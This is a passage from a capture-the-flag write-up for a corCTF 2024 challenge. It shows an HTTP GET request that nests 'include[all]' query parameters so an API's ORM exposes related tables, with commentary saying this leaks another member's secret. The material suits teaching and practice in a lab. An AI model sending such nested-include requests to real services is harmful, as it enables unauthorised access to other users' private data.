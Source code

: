 ![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2024/images/Pasted%20image%2020240729211854.png)

Nice! We now nest included table `Category`!

if we do the same thing again, we'll leak member `goroo`'s `secret`!

```http
GET /api/writeups?include[all]=All&include[include][all]=All&include[include][include][all]=All HTTP/1.1
Host: localhost


```
